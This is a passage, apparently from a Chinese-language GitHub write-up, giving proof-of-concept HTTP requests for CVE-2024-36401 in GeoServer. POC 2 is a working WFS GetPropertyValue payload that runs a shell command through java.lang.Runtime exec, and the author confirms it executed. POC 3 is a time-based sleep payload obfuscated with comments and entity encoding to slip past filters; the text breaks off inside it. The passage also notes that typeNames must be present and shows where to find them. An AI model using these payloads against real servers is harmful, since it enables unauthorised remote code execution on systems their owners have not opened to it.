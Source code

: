 ### POC 2 post请求

```SQL
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```


熟悉的`java.lang.ClassCastException`错误，说明命令已执行成功。
![image](https://github.com/user-attachments/assets/86cb05de-a664-4a7a-9a43-58bac8c281ca)


进入容器可见，`touch /tmp/success1`与`touch /tmp/success2`均已成功执行。

值得注意的是，***typeNames必须存在***，我们可以在Web页面中找到当前服务器中的所有Types：

```SQL
/geoserver/web/wicket/bookmarkable/org.geoserver.web.demo.MapPreviewPage?1&filter=false
```
![image](https://github.com/user-attachments/assets/02febb24-dc4d-40c0-8ddb-acd9a46fd067)





### POC 3 基于时间的测试

如果有人难以重现 CVE-2024-36401，请尝试此有效载荷

```SQL
POST /geoserver/wfs HTTP/1.1
Host: ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 401

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>
/+java.lang.T<!--IgnoreMe!!!!-->hread.s[(: IGNORE :)]leep&#010;&#032;&#009;<![CDATA[
(5000)
```